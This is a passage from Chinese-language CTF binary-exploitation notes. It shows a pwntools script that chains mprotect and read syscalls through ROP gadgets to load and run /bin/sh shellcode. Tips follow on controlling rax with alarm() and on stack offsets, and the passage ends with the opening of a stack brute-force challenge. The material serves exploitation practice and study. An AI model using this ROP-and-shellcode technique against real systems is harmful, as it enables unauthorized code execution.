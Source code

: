 ```
buf = 0x8048000
#gdb.attach(p)
payload = ""
payload += padding
payload += p32(pop_eax_ret) + p32(0x7d) #125   mprotect
payload += p32(pop_ebx_ret) + p32(buf) 
payload	+= p32(pop_ecx_ret) + p32(4096)
payload += p32(pop_edx_ret) + p32(7)
payload += p32(int_80)
payload += p32(pop_eax_ret) + p32(0x3) 
payload += p32(pop_ebx_ret) + p32(0) 
payload	+= p32(pop_ecx_ret) + p32(buf)
payload += p32(pop_edx_ret) + p32(0x40)
payload += p32(int_80)
payload += p32(buf)
#sh = shellcraft.sh()
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
p.recvuntil("ROP all the way to shell:")
gdb.attach(p)
p.send(payload)
#p.recvline()
p.send(shellcode)
p.interactive()

#mprotect: http://man7.org/linux/man-pages/man2/mprotect.2.html
```
### 如何控rax&&tips

 + 调用`alarm`，返回的是剩余秒数放在`rax`上，可以利用这个思路来控制`rax` ，其中`alarm`的参数就是秒数就ok......
```
alarm() returns the number of seconds remaining until any previously scheduled alarm was due to be delivered, or zero if there was no previously scheduled alarm.
```
**所以如果连续两次调用alarm的话，第二次alarm返回第一次订的闹钟剩余的时间，因为程序执行时间很短，如果第一次alarm(5)的话，第二次alarm返回值将是5，成功控制rax**

 + **read或者write的成功读入或者成功输出的字节数都会返回到eax**
 + 做32位程序地址的时候时常注意栈的偏移，当前eip所指向的东西，可以用add 20h，或者一些 pop 的gadget来让当前eip指向你想要的东西来给调用函数赋予准确的参数。

### 爆破栈地址
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


这道题目也是由上面题目改编的题，没有控制ebx,ecx,edx这些寄存器的gadget，但是我们同样可以用栈上的值，再跳到mov ebx,[esp+xx]的地方来进行控制。但是这道题的溢出字节变小了。
